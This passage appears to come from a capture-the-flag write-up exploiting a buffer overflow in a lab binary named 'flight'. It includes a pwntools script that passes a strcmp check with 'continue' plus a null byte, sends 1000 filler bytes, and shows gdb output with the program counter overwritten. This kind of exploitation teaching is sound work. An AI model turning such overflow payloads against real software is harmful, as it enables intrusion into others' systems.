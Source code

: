 This makes it potentially vulnerable to a buffer overflow. That being said, in order to escape the while loop and return from the function, we need the call to `strcmp` to evaluate to 0. This means our payload will have to start with either 'land' or 'continue' followed by a null byte, and then the rest of our payload.

Let's write a Python script that causes a segmentation fault. First, we'll set up the environment.

```python
from pwn import *
import os

context(terminal=['tmux', 'new-window'])

p = process('../distfiles/flight')

gdb.attach(p)
```

Next, we'll go through the execution of the program and send the buffer overflow payload at the end.

```python
print(p.recvuntil("password"))

p.sendline("73f46e5e-7c23-11ed-a1eb-0242ac120002");

print(p.recvuntil("(Y/N)"))

p.sendline("Y")

print(p.recvuntil("go?"))

p.sendline("AAAA")

print(p.recvuntil("(land/continue)"))


p.sendline(b"continue"+b"\x00"+b"A"*1000)

p.interactive()
```

After running the script, we can see that we get a segmentation fault.

```default
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xff947430 ('A' <repeats 200 times>...)
0004| 0xff947434 ('A' <repeats 200 times>...)
0008| 0xff947438 ('A' <repeats 200 times>...)
0012| 0xff94743c ('A' <repeats 200 times>...)
0016| 0xff947440 ('A' <repeats 200 times>...)
0020| 0xff947444 ('A' <repeats 200 times>...)
0024| 0xff947448 ('A' <repeats 200 times>...)
0028| 0xff94744c ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ 

```

